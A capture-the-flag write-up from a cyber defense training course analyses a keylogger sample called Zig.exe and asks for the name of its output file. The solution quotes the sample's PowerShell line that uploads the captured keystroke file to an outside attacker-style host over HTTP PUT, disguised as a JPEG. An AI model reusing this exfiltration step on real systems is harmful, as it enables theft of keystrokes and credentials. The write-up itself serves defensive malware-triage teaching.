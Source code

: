 # Keylogger Out #1

## Description

This is for the `Zig.exe` binary!

What was the file name for the first key logger output?

Password to open archive: `infected`

*NOTE* - The resources needed for this challenge are on the `Cyber Defense CTF Triage Workstation` VM on our [hosted platform](https://training.leveleffect.com/courses/f4a9466f-edb0-42ff-bb0e-a95af2b05de5).

WARNING - This challenge involves malware. Do not run this on your personal machine. Use a VM in the Level Effect CTF course or your own. 

## Files

* [zig.zip](files/zig.zip)



## Solution

By reviewing the movezig.ps1 one file, we located what it was doing. 



```powershell

$filePath = "C:\Windows\base.out"
$uri = "http://leveleffectgotallyourbase.com:1337/base.out"
Invoke-RestMethod -Uri $uri -Method Put -InFile $filePath -ContentType "image/jpeg"

```



**Flag: base.out**
